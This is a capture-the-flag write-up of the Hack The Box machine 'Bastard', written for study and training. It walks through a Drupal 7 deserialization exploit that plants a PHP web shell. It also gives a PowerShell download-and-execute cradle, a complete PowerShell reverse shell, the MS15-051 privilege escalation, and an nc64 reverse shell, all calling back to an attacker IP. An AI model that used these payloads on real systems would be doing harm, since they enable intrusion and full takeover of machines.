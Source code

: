 ![logo](/logo.png)

# [Bastard- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Mar 2017 as the seventh machine on HTB,Bastard created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](/Windows/Windows-Medium/Bastard/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bastard 10.10.10.9                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 20:56 EAT
Nmap scan report for 10.10.10.9
Host is up (0.38s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.55 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Microsoft IIS httpd 7.5 `and its running an `Drupal 7`. 

port[80]-  http
port[135]-msrpc
port[49154]-msrpc

looking at the port 80 we find a landing page [http://10.10.10.9](http://10.10.10.9)

![](/Windows/Windows-Medium/Bastard/Screenshots/bastard.png)so we try to look for the version of the drupal but on the nmap we see that their is  a changelog so we try to see what we can find in the changelog

![](/Windows/Windows-Medium/Bastard/Screenshots/changelog.png)

now searching for the exploit using searchsploit reveles that drupal 7.x can be a potential exploit of a `Remote code Execution` 

```sh
searchsploit Drupal 7.x
```

![](/Windows/Windows-Medium/Bastard/Screenshots/searchsploit.png)

lets examine the exploit to see what it does.looking at the exploit it trying to abuse the `PHP Seriallization` . The exploit requires a few small modifications to run successfully. There is a syntax error on line 16 as well as line 71. The variables that must be modified are `url`, `endpoint_path`,`filename` and `data`.

![](/Windows/Windows-Medium/Bastard/Screenshots/exploit.png)
so we have to modify the code a bit best on the gobuser i ran earlier i found out something intresting which is a endpoint which is `rest`

![](/Windows/Windows-Medium/Bastard/Screenshots/rest.png)

the change would be like this just also to add some interactivity on the shell

![](/Windows/Windows-Medium/Bastard/Screenshots/modified.png)

```sh
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<< 'EOD'
<?php 
  if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.9:8000/" .$_REQUEST['fupload']));
   };
  if (isset($_REQUEST['fexec'])) {
   echo "<pre>" .shell_exec($_REQUEST['fexec']) . "<pre>";
  };
?>
EOD;


$file = [
    'filename' => 'leshack.php',
    'data' => $phpCode

```

now we run the script to execute the exploit

![](/Windows/Windows-Medium/Bastard/Screenshots/drupal.png)

so when follow the [http://10.10.10.9/leshack.php](http://10.10.10.9/leshack.php) and execute something from the browser we get a some remote execution

![](/Windows/Windows-Medium/Bastard/Screenshots/remote.png)

running the exploit will create the specified PHP file as well as generate `user.json` and
`session.json` locally. The session file contains valid cookie data for the Drupal `admin user`, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

# Privillage Escalation

so we check the  `systeminfo` to see if we can get any information

![](/Windows/Windows-Medium/Bastard/Screenshots/systeminfo.png)

now we first have to get a good shell so what we do after getting the remote code execution is to be able to get a good shell 

```sh
http://10.10.10.9/leshack.php?fexec=echo%20IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.9:8000/bastard.ps1%27)%20|%20powershell%20-noprofile%20-
```

the exploit we just replicate from the prevoius box optimum

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

we set a listner to listen for the `bastard.ps1` 

![](/Windows/Windows-Medium/Bastard/Screenshots/pythonserver.png)

![](/Windows/Windows-Medium/Bastard/Screenshots/reverseshell.png)

As the target is a fresh install of `Windows Server 2008`, it is fairly easy to exploit. No service
packs or hotfixes have been installed.so we run  the sherlock script just like the prevous box to see if we can find something that is vulnerable

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Medium/Bastard/Screenshots/sherlok1.png)

This appears to be vulnerable
![](/Windows/Windows-Medium/Bastard/Screenshots/sherlork2.png)

A bit of research reveals quite a few potential exploits,however the most reliable is `MS15-051`. [Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)  and also some search on searchsploit reveels more infomation.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms15.png)
it revel some compiled 64.vulnerability that can be uploaded to the machine to be runned.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms152.png)


so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
http://10.10.10.9/leshack.php?fupload=Ms15.exe&fexec=%20Ms15.exe%20whoami
```

![](/Windows/Windows-Medium/Bastard/Screenshots/ms153.png)

checking at the shell we see it has uploaded 

![](/Windows/Windows-Medium/Bastard/Screenshots/ms154.png)

now when we go and run we get a confirmation

![](/Windows/Windows-Medium/Bastard/Screenshots/whoami.png)

since we can execute some command using that we need a permanet shell that is easy to use so what we can do is to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) we just upload it the way we uploaded the `Ms15.exe`

and by doing this from the shell 

```sh
./Ms15.exe "nc64.exe -e cmd 10.10.14.9 1338"
```

![](/Windows/Windows-Medium/Bastard/Screenshots/shellcode.png)

or this from the webrowser

![](/Windows/Windows-Medium/Bastard/Screenshots/webbrowser.png)

we get a shell

![](/Windows/Windows-Medium/Bastard/Screenshots/executableshell.png)

Then now we obtain the `root and user flag`

![](/Windows/Windows-Medium/Bastard/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------